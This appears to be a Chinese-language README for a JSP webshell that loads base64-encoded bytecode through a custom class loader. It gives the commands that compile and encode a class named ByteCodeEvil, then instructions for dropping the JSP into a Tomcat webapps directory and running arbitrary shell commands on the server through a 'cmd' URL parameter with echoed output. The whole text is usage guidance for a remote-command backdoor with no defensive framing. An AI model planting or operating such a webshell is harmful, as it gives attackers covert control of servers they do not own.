 ### 自定义类加载器的JSP Webshell

生成字节码：
```
javac ByteCodeEvil.class
java ByteCodeEvil
cat ByteCodeEvil.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问2.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/2.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```